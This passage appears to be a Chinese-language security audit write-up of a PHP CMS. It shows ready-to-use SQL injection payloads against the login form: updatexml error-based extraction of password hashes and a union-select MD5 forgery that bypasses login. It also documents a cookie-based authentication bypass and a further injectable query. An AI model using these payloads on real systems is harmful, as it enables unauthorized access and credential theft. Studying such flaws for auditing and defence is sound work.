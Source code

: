 注意到`$user = $_POST['user'];`和`$query = "SELECT * FROM manage WHERE user='$user'";`

`user`没有经过任何过滤就拼接到语句中

首先是可以使用报错注入读取用户名和密码

user传入`' or updatexml(1,concat(0x7e,(select @@version),0x7e),1)#`即可带出数据

user传入`' or updatexml(1,concat(0x7e,(select group_concat(password) from manage),0x7e),1)#`即可读出md5之后的密码

除了对md5进行反查外,还可以通过伪造password来进行登录,已知一共有8列

user传入`' union select 1,2,3,4,5,6,7,8#`,可以导致sql查询返回的结果为4,而验证密码手段为`md5($password) <> $passwords`,传入某个字符串的md5并将该字符串作为密码传入即可登录

`asdf 912ec803b2ce49e4a541068d495ab570`

user传入`' union select 1,2,3,'912ec803b2ce49e4a541068d495ab570',5,6,7,8#`,password传入`asdf`即可登录

![](https://cdn.jsdelivr.net/gh/AMDyesIntelno/PicGoImg@master/202203022209734.png)

![](https://cdn.jsdelivr.net/gh/AMDyesIntelno/PicGoImg@master/202203022209433.png)

>注意右上方的用户名

## inc/checklogin.php存在权限绕过漏洞

```php
<?php
$user=$_COOKIE['user'];
if ($user==""){
header("Location: ?r=login");
exit;	
}
?>
```

`$_COOKIE['user']`可以被用户控制,从而绕过权限检查,使用cms中的大部分功能

![](https://cdn.jsdelivr.net/gh/AMDyesIntelno/PicGoImg@master/202203022212075.png)

![](https://cdn.jsdelivr.net/gh/AMDyesIntelno/PicGoImg@master/202203022214447.png)

>注意右上方的用户名

## admin/files/editlink.php存在SQL注入

```php
<?php
require '../inc/checklogin.php';
require '../inc/conn.php';
$linklistopen='class="open"';
$id=$_GET['id'];
$query = "SELECT * FROM link WHERE id='$id'";
$resul = mysql_query($query) or die('SQL语句有误：'.mysql_error());
$link = mysql_fetch_array($resul);
```

